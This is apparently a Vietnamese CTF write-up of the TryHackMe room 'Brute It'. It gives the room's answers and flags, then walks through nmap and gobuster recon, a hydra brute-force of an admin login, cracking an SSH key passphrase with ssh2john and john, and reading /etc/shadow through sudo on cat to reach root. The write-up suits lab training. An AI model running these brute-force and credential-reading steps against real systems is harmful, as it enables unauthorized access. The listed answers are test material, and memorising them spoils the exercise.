






# __Brute It__

Room at https://tryhackme.com/room/bruteit

---

??? question "List of the questions solved"

    Question: How many ports are open?
    > Ans: 2

    Question: What version of SSH is running
    > Ans: OpenSSH 7.6p1

    Question: What version of Apache is running?
    > Ans: Ubuntu

    Question: What is the hidden directory?
    > Ans: /admin

    Question: What is the user:password of the admin panel?
    > Ans: admin:xavier

    Question: What is John's RSA private Key passphrase
    > Ans: rockinroll

    Question: user.txt
    > Ans: THM{a_password_is_not_a_barrier}

    Question: Web flag
    > Ans: THM{brut3_f0rce_is_e4sy}

    Question: What is the root password?
    > football

    Question: root.txt
    > Ans: THM{pr1v1l3g3_3sc4l4t10n}

## __Pentest scenario__

Host: 10.10.206.216

### __Reconnaissance__

Như thường lệ, ta cũng scan nmap (chọn option -A để hiển thị thông tin cần thiết để trả lời câu hỏi), gobuster

Scan nmap ra được 2 port: 22 cho ssh và 80 cho http

Sau khi scan ra url http://10.10.206.216/admin, ta được hint quan trọng như hình dưới



Với hình trên, ta biết được sẽ có user john (dùng cho ssh) và trang web login lấy username là admin :3

Roài, dùng hydra để bruteforce password cho username admin thôi
> hydra -l admin -P ~/Desktop/allthings/rockyou.txt 10.10.206.216 http-post-form "/admin/index.php:user=admin&pass=^PASS^:Username or password invalid"

??? info "No.........."

    username: admin

    password: xavier

Sau khi login thành công, ta được thêm file pass cho ssh và `Web flag`



Dùng john ta có thể dễ dàng tìm được passphrase 

```ps1 title="Terminal"
└─$ sudo ssh2john  id_rsa >  hash
   sudo john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)     
1g 0:00:00:06 DONE (2023-09-01 14:41) 0.1512g/s 10984p/s 10984c/s 10984C/s saloni..rock14
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

??? note "Xem nó"

    Vì file id_rsa là file private key cho ssh nên dùng `john id_rsa` thì john không hiểu được file id_rsa, nên sẽ dẫn đển việc không tìm được key passphrase. Ta cần chuyển file id_rsa thành dạng hash mà john có thể hiểu. Đó là lý do ta dùng `ssh2john`.

Có đủ mọi thứ rồi, login ssh thôi

### __Init Access__



Bài này leo quyền dễ roài, vì có quyền sudo tại lệnh cat. Ta sẽ dùng nó để đọc file /etc/shadow.



Sau khi giải mã password, ta được



> Root's password: football

### __Privilege Escalation__

Leo quyền thôi

```ps1 title="Terminal"
su root
```



## __What we learned__

1. Privilege Escalation with /bin/cat
2. Use tool ssh2john
